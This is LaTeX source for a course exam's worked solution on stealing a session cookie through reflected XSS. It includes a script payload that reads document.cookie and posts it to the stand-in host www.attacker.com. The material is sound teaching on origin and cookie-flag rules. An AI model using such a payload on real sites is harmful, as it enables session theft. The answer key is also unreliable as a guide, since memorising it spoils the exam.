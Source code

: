\documentclass[12pt, a4paper]{article}
\newcommand{\term}[1]{\textbf{\textit{#1}}}        %
\begin{document}
\begin{practicebox}{Exam 2025-10-20, Problem 4d}
\textbf{Solution:}
\begin{itemize}
    \item \textit{Applying Step 1 (classify the goal):} The goal is to LEARN the session token, i.e. read a secret from Albin's browser -- that requires code running in the readbooks origin, hence \term{XSS}, and the task even mandates the reflected variant. (Compare task 4a of the same exam: over plain HTTP with \texttt{HttpOnly=true}, the only option was reading the login response on the wire -- events 3 then 7. Here HTTPS forbids exactly that.)
    \item \textit{Applying Step 2 (check channel and flags):} HTTPS blocks Malice's wire access, so wire sniffing (events 6/7) is useless. \texttt{Secure=true} is irrelevant once everything is HTTPS. The enabling given is \texttt{HttpOnly=false}: injected JavaScript MAY read \texttt{document.cookie}. The reflected channel is the \texttt{msg} parameter of \texttt{/home?msg=X}, which is echoed at the top of the page -- so a script placed in X executes when Albin loads that URL.
    \item \textit{Applying Step 3 (craft the payload):} Use \[ \texttt{<script>post("www.attacker.com",document.cookie)</script>} \] as the value of \texttt{msg}. It reads the session cookie (allowed, HttpOnly=false) and POSTs it to Malice's server, where she simply logs the incoming request.
    \item \textit{Applying Step 4 (order the events):} Attack steps:Login MUST come first: the cookie only exists after event 3.
    \item \textit{Applying Step 5 (justify with origin and SOP):} The reflected script executes with the origin \texttt{www.readbooks.com} (origin of the loading page), so \texttt{document.cookie} returns Albin's session token -- HttpOnly=false permits this. Sending the token to \texttt{www.attacker.com} is a cross-origin request, but the SOP only blocks READING cross-origin responses, never SENDING requests, so the exfiltration POST goes through and Malice observes the token at her server. HTTPS protects the wire, not the content of a page the site itself reflected.
\end{itemize}
\textbf{Answer:} Events: 3, None; then 2, \texttt{<script>post("www.attacker.com",document.cookie)</script>} -- the reflected script (HttpOnly=false) sends Albin's session cookie to Malice's server.
\end{practicebox}
\end{document}
